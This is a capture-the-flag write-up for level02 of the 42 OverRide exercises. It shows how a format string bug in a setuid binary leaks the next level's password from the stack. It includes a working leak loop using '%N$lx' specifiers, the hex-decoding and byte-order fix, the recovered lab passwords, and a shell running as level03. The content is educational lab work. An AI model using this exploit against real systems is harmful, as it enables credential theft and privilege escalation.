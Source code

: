 ## TLTR;
Format string reading (attack) - read the content of `pass` buffer on the stack
***

Log into level02
```shell
┌──$ [~/42/2022/override]
└─>  ssh -p 4242 192.168.56.101 -l level02
     ____                  ____  _     __
    / __ \_   _____  _____/ __ \(_)___/ /__
   / / / / | / / _ \/ ___/ /_/ / / __  / _ \
  / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
  \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level02@192.168.56.101's password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
The binary file located in home directory of `level02` is an 64-bit executable.
```shell
level02@OverRide:~$ ls -l
total 12
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
level02@OverRide:~$ file level02
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```
It contains only one user defined function `main()`

Executable open a `.pass` file of `level03` and read 41 bytes of data from the stream pointed to by the `fd`, storing them at the location given by first pointer to `buff`.
It replace last character `\n` with `\0` and check that letght of buffer is equal to 41.
Then, it invite user to input username and password. So it reads in at most one less than 100 characters from `stdin` and stores them into the buffer pointed to by `username` and `password`. Once input is entered it replace `\n` with `\0`.

Finally, it compares user's password to password read from the file. If it match, it open a new process runnign a shell.
In case if password do not match, it ouputs username and message that it _does not have access!_.
Here `printf()` is ussed is such way that input string is evaluated as a command by the application, which is know as [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack). As the password still in the memory, it can be retrieved by passing to `printf()` a conversion specifier `%x`.

As password is stored in the buffer and FSA can be performed, read the stack using long conversion specifier `%lx`.
```shell
level02@OverRide:~$ for i in {0..26}; do python -c "print('%$i\$16lx')" | ./level02 | grep -oE '[a-f0-9]{16}' | tr '\n' ' '; done; echo
2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 
```
Convert hexadecimal value to ASCII within Python
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"))
****************unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
```
The password is incorrect.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
level03 does not have access!
level02@OverRide:~$
level02@OverRide:~$ su level03
Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
su: Authentication failure
```
The system and the binary are in Little endian configuration.
```shell
level02@OverRide:~$ lscpu | grep 'Byte Order'
Byte Order:            Little Endian
level02@OverRide:~$ readelf -h ./level02 | grep Data
  Data:                              2's complement, little endian
```
So the order of bytes need to be adjust.
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348"))
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, level03!
$ id
uid=1002(level02) gid=1002(level02) euid=1003(level03) egid=100(users) groups=1003(level03),100(users),1002(level02)
$ cat /home/users/$(whoami)/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
